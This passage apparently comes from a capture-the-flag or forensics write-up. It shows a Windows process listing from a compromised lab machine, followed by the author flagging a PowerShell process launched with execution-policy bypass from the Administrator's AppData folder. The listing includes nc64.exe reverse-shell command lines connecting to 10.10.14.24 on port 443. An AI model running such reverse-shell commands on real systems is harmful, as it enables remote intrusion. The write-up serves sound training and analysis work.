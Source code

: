           584 RuntimeBroker.exe         C:\Windows\System32\RuntimeBroker.exe -Embedding
         1528 vmtoolsd.exe              "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
         1952 cmd.exe                   C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsof...
         1896 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
          880 cmd.exe                   C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsof...
         4544 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
         2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...
         3380 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld"  --defaults-file="C:\Progra...
         2368 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld" "--defaults-file=C:\Program...
          744 svchost.exe               C:\Windows\System32\svchost.exe -k LocalServiceNoNetwork -p -s DPS
         1300 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s UALSVC
         5664 svchost.exe               C:\Windows\System32\svchost.exe -k LocalService -p -s LicenseManager
         5928 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s StorSvc
         3572 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s DsSvc
         4296 taskhostw.exe             taskhostw.exe
         6120 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s PcaSvc
         4128 wsmprovhost.exe           C:\Windows\system32\wsmprovhost.exe -Embedding
         1988 nc64.exe                  "\\10.10.14.24\share\nc64.exe" -e cmd 10.10.14.24 443
         1556 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         5056 cmd.exe                   cmd
         4124 cmd.exe                   "C:\Windows\System32\cmd.exe" /c C:\Windows\System32\WindowsPowerShell\v1.0\powe...
         1864 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         5744 powershell.exe            C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  -WindowStyle Hidden -...
         2044 nc64.exe                  "\windows\system32\spool\drivers\color\nc64.exe" -e cmd 10.10.14.24 443
         3280 cmd.exe                   cmd
         4064 powershell.exe            powershell



Scanning through the list, these two jumped out:



         2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
         2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...



Process 2100 is PowerShell running out of the administrator's `AppData`
directory, and 2108 is Notepad editing something in the same path. I'll
get the full command line for each:
